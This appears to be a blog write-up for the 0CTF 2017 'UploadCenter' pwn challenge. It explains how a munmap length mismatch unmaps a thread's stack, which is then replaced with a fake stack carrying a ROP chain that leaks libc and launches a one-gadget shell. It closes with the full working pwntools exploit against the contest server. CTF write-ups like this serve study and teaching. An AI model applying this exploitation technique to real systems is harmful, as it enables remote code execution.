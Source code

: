 ```yaml
---
layout: post
title: "0CTF 2017 Quals: UploadCenter (pwn, 523pts)"
modified: 2017-03-21
tags: 0ctf, 0ctf2017quals, pwn
---
```


After reversing the binary it turned out the structure of the challenge is the usual menu system based pwn challenge.

We had the following menus:
 - "1 :) Fill your information"
   - It reads your team name to a 20 byte buffer and prints it out. It can be used to leak data from stack if you don't fill the 20 byte buffer. For example it can be used to leak the heap base address. But we never used this vulnerability in the final exploit.
 - "2 :) Upload and parse File"
   - This is where the main functionality lies: you can upload a zlib-compressed PNG image, it will parse its headers, allocate a **width\*height-sized buffer with mmap**, and copies the content into it (but limits the size to the buffer length, so it does not cause overflow). It also puts various metadata into a linked list about these uploaded files, including the decompressed content's size.
 - "3 :) Show File info"
   - Prints out the width, height and "pixels" (bit depth) properties of the chosen file. Not used in the exploit.
 - "4 :) Delete File"
   - Deletes a selected file. Munmaps its content (based on the decompressed content's length), frees it's metadata and unlinks the item from the linked list. We will use the munmap in the exploit.
 - "5 :) Commit task"
   - Creates a thread which prints out every file's width, height, bit depth. You can only call this method six times. Not used in the exploit, probably just a red herring :)
 - "6 :) Monitor File"
   - Create a thread which notifies you if a new file was uploaded. It uses a conditional variable (and mutex) to block until the main thread notifies it.
 - 8 - a hidden "backdoor"
   - It's a gets-based stack overflow, but exits immediately after it overwrites the stack. Although the deinitialization logic runs in the exit call, the stack overflow is still not exploitable this way. It's obviously there just for misleading us.
   
There are a few misleading / non-exploitable functionality (including the whole PNG parsing), but there is something fishy going on with the content length calculation when it allocates the buffer based on the width and height instead of the decompressed content length.

Also despite that the PNG is a compressed file format, there is an additional layer of compression which is a hint about that we may have to send a lot of data. As we will see later, our hunch was not unfounded.

If we take a closer look at the buffer allocation, it turns out fast that the  allocation size and the length used for munmap can differ.

This is exactly the same situation that my teammate **tukan** described in [one of his ptmalloc fanzine back in 2016](http://tukan.farm/2016/07/27/munmap-madness/), so he could point us into the correct direction right away.

Although the next mapped memory segment after our mmap'd allocation is either the read-only data section of the libc or the guard page before the stack of a thread created by either the 5th or 6th menu item, the munmap can remove them if we use a bigger length than the original allocation was.

So our plan is the following:
 - create a long-running thread (with 6th menu item), which will mmap a thread stack (the size is architecture dependent, but was 8MB on x64).
 - the thread waits for the condition variable until we upload a new file
 - upload a file whose decompressed length is bigger than the allocation size, so munmap will remove the following mmap'd segment too
   - I used the following values: width = 1024, height = 1024, width * height = 1MB, decompressed length = 9MB (1MB my content + 8MB overflow into the thread's stack)
 - delete this file with the 4th menu item
   - although the thread's stack is unmapped, the thread won't wake up, so this won't cause any problem (segmentation fault for example)
 - upload a new, fake thread stack (8MB), and putting a ROP chain in the place of the original stack where the execution returns
   - we also have to restore a few variables (like mutex and cond) so the waking up thread won't crash immediately or behave incorrectly
 - the ROP chain does the following:
   - leaks libc address (puts in our case)
   - unlocks the mutex, so the main thread won't block anymore
   - make the thread sleep forever, so its broken state won't cause any problems for us (for example race condition)
 - we calculate the address of one of the one-gadget-RCEs ([thanks to david942j for his tool](https://github.com/david942j/one_gadget))
   - calling system did not work for me, probably something broke meanwhile
 - we repeat everything from the beginning, but this time we call the one-gadget-RCE in the ROP chain

Executing our plan actually worked and give us a shell.
 
We found the flag in the /home/uploadcenter/flag file:

{% highlight text %}
flag{M3ybe_Th1s_1s_d1ffer3nt_UAF_Y0U_F1rst_S33n}
{% endhighlight %}

Below the whole exploit:

{% highlight python %}
#!/usr/bin/env python2
from pwn import *
import time
import zlib

REMOTE = True

def readMenu():
    print '\n'.join([' < '+x for x in p.recvuntil('1 :) Fill your information', drop=True).strip().split('\n')])
    p.recvuntil('6 :) Monitor File\n')

skipReadMenu = False
    
def cmd(cmdIdx):
    global skipReadMenu
    if skipReadMenu:
        skipReadMenu = False
    else:
        readMenu()
    print '> cmd: %d' % cmdIdx
    p.sendline(str(cmdIdx))
    
def fillInfo(teamName, memberCount):
    cmd(1)
    p.sendlineafter('Your team name : ', teamName)
    p.sendlineafter('Member count : ', str(memberCount))
    
def upload(data):
    cmd(2)
    p.send(p32(len(data)))
    p.send(data)
    
def showFileInfo(fileId):
    cmd(3)
    p.sendlineafter('which file you want to show ?', str(fileId))

def delete(fileId):
    cmd(4)
    p.sendlineafter('which file you want to delete ?', str(fileId))
    
def commitTask():
    cmd(5)
    
def monitorFile():
    cmd(6)

def genPngEx(width, height, colorType, bitDepth, chunks):
    # must be zero, otherwise won't parse png
    comprMethod = 0
    filterMethod = 0
    interlaceMethod = 0

    ihdrLen = 13 # not checked
    with context.local(endian='big'):
        res = '\x89PNG\r\n\x1A\n' + p32(ihdrLen) + 'IHDR' + p32(width) + p32(height) +\
            chr(bitDepth) + chr(colorType) + chr(comprMethod) + chr(filterMethod) + chr(interlaceMethod) + 'A'*4 # crc
        
        for chunk in chunks:
            res += p32(chunk['size']) + 'IDAT' + chunk['data'] + 'A'*4 # crc
            
        res += p32(0) + 'IEND' + 'A'*4 # crc
    
    return res
    
def genPng(width, height, chunks):
    return genPngEx(width, height, 2, 8, [{'size': len(x), 'data': x} for x in chunks])

if REMOTE:
    p = remote("202.120.7.216", 12345)
else:
    p = process('./uploadcenter')
    time.sleep(1)

mutex = 0x60E160
cond = 0x60E1A0
popRdiRet = 0x4038B1
puts = 0x400AF0
gotPuts = 0x60E028
sleep = 0x400C30
mutexUnlock = 0x400BB0

def rop(ropchain, stage2):
    global skipReadMenu
    
    monitorFile()
    p.recvuntil('I will remind you')
    skipReadMenu = True

    delSize = 9*1024*1024# - 8*4096
    print 'delete size = %d' % delSize
    png = genPng(1024, 1024, ['A'*(delSize)])
    print 'payload length = %d' % len(png)
    upload(zlib.compress(png))

    p.recvuntil('New file uploaded, Please check')
    skipReadMenu = True

    delete(1 if stage2 else 0)
    split = 4393

    readMenu()
    skipReadMenu = True

    payload = 'C'*8 + p64(cond) + p64(mutex) + 'F'*8 + 'G'*8 + ropchain + '\0'*(split-8*5-len(ropchain))
    upload(zlib.compress(genPng(8*1024, 1024, ['A'*(8*1024*1024-split) + payload])))

ropchain = \
    p64(popRdiRet) + p64(gotPuts) + p64(puts) +\
    p64(popRdiRet) + p64(mutex) + p64(mutexUnlock) +\
    p64(popRdiRet) + p64(60) + p64(sleep)

rop(ropchain, False)
    
p.recvuntil('byte data\n')
gotLeak = p.recvline()
print 'gotLeak = %r' % gotLeak
if gotLeak.startswith('1 :) Fill your'):
    p.recvuntil('6 :) Monitor File\n')
    gotLeak = p.recvline()

print 'gotLeak = %r' % gotLeak
putsLibc = u64(gotLeak.strip().ljust(8, '\0'))
print 'putsLibc = %016x' % putsLibc

if REMOTE:
    p.sendline('')
    libcBase = putsLibc - 0x7ffff787f990 + 0x7ffff7814000
    oneGadget = libcBase + 0x41374
else:
    system = putsLibc - 0x7ffff7860690 + 0x7ffff7836390 # local ubuntu
    libcBase = putsLibc - 0x7ffff7860690 + 0x7ffff77f1000 # local ubuntu
    oneGadget = libcBase + 0x4526a # local ubuntu

rop(p64(oneGadget), True)

p.interactive()
{% endhighlight %}